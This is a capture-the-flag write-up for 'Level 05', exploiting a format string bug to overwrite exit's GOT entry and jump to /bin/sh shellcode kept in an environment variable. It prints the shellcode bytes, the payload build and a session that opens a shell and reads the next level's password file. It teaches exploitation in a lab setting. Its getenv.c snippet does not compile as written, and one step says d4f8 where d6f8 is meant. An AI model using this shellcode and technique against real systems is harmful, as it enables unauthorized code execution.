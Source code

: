 # Level 05

## Initial Context

- One file: `level05`

## Gathering informations

The program read `stdin`, lowers the input and write it `stdout`.

By looking at the decompiled code, the process sends the buffer to `printf`, allowing a format string attack.
Right after the `printf` call, `exit` is called and can be overwritten using the `Global Offsets Table`.

### Finding the buffer location

First we need to know where the buffer is stored relative to the `printf` call:

```bash
$ for i in $(seq 1 42); do
>     echo -n "$i ";
>     python -c 'print "AAAA %'$i'$x''"' | ./level05;
> done | grep 61616161
10 aaaa 61616161
```

We can access the buffer at the `10`th parameter.

### Storing the payload

Then, since we cannot send the payload to `stdin` (because of the `toupper()`), we need to store it to the environment variables.
Storing it here is unstable since environment variables can move in memory.

To mitigate that, we can use a [NOP slide](https://en.wikipedia.org/wiki/NOP_slide) to give us more room.

```bash
export SHELLCODE=`python -c 'print "\x90" * 1024 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

Now we need to find the address of the `SHELLCODE` environment variable when a program is running.
For that, we can write a small utility ([full code](./Ressources/getenv.c)):

```c
void main(int argc, char const* argv[])
{
    char const *ptr = getenv(argv[1]);
    printf("address: %p\n", var_name, ptr, ptr);
}
```

```bash
$ gcc getenv.c -o getenv -m32
$ ./getenv SHELLCODE
address: 0xffffd4f8
```

To avoid small shifts in memory, let's add `512 bytes` (half of the NOP slide).
The address is now: `0xffffd6f8`

We cannot write `4294956792 bytes` directly via `printf` as it exceed `INT_MAX`.
But we can send both `0xffff` and `0xd6f8` as two shorts.

### Locate `exit`'s GOT

And last, we need to find `exit`'s GOT location:

```
$ gdb ./level05 
(gdb) disass 'exit@plt'
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
...
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

`exit`'s GOT is located at `0x080497e0`.

Since we need to write two shorts, the addresses will be:
- `0x080497e0` (or `e0 97 04 08` in LE)
- and `0x080497e2` (or `e2 97 04 08` in LE)

## Solving the Challenge

As previously stated, we need to overwrite `exit` GOT using two shorts.

Since when using `printf`'s `%n` specifier, the value does not reset, we need to take into account that.

The first value we need to write `n bytes` being `d4f8` minus `8 bytes` for the two addresses.

```python
# value itself
0xd6f8 = 55032

# skip two first addresses
55032 - 8 = 55024
```

For the second value, we need to write `n bytes` being the distance between two the shorts.

```python
# value itself
0xffff = 65535

# substract the first value
65535 - 55032 = 10503
```

We can now build the payload:

```python
# exit@got.plt, this will write 4 characters
"\xe0\x97\x04\x08"

# exit@got.plt + 2, this will write 4 characters
+ "\xe2\x97\x04\x08"

# write 55024 dummy characters for a total of 55032
+ "%55024x"

# ask print to store the number of characters written to the 10th parameters, using a short (h)
+ "%10$hn"

# write 10503 dummy characters, for a total of 65535
+ "%10503x"

# ask print to store the number of characters written to the 11th parameters, using a short (h)
+ "%11$hn"
```

We can store it and send it to the vulnerable program:

```bash
$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55024x%10$hn" + "%10503x%11$hn"' > /tmp/exploit05
$ cat /tmp/exploit05 - | ./level05
...
whoami
level06
cat /home/users/level06/.pass
<flag>
```

## References

- https://shankaraman.wordpress.com/category/ctf/binary-exploitation/
- https://www.ibm.com/docs/en/i/7.2?topic=functions-printf-print-formatted-characters
